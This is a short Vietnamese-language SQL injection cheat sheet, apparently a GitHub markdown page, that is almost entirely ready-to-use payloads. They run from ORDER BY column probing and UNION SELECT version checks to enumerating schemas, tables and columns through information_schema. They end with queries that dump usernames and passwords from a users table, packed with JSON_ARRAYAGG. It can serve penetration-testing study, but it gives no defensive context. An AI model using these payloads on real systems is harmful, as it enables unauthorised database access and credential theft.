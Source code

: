 ### Xác định vị trí lỗi
```sql
1' ORDER BY 1-- -
1' ORDER BY 2-- - <- injected
1' ORDER BY 3-- - // error
```
### Tìm vị trí cột hiển thị

``` sql
1' UNION ALL SELECT 1, @@version-- -
```

### Xem 2 cái cùng 1 lúc
``` sql
1' UNION select table_schema,table_name FROM information_schema.tables-- -
```
### Tìm tên database
``` sql
1' union select table_schema,2 from information_schema.tables-- -
-4553' UNION ALL SELECT NULL,NULL,JSON_ARRAYAGG(table_schema),NULL,NULL,NULL,NULL FROM INFORMATION_SCHEMA.TABLES-- -
```
#### Dùng thêm JSON_ARRAYAGG khi có nhiều giá trị trả về xem không hết

### Tìm tên tables

``` sql
1' union select table_name,2 from information_schema.tables-- -
1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,JSON_ARRAYAGG(table_name),NULL FROM INFORMATION_SCHEMA.TABLES WHERE table_schema IN (0x6861636b696e67)-- -

```

### Xem tất cả dữ liệu trong bảng hiện tại 

``` sql
1' OR 'x'='x'-- -
```

### Tìm tên cấu trúc cột

``` sql
1' UNION select column_name FROM information_schema.columns-- -
1' UNION SELECT table_name, column_name FROM information_schema.columns-- -
1' UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,JSON_ARRAYAGG(table_name, column_name),NULL FROM INFORMATION_SCHEMA.columns WHERE table_schema IN (0x6861636b696e67)-- -

```

### Xem dữ liệu bên trong

``` sql
1' union select * from users-- -
1' UNION SELECT user, password FROM users-- -
1' UNION ALL SELECT NULL,NULL,JSON_ARRAYAGG(CONCAT_WS('-',title,id)),NULL,NULL,NULL,NULL FROM hacking.product-- -
1' UNION ALL SELECT NULL,NULL,JSON_ARRAYAGG(CONCAT_WS('-',username,password)),NULL,NULL,NULL,NULL FROM hacking.users-- -
```
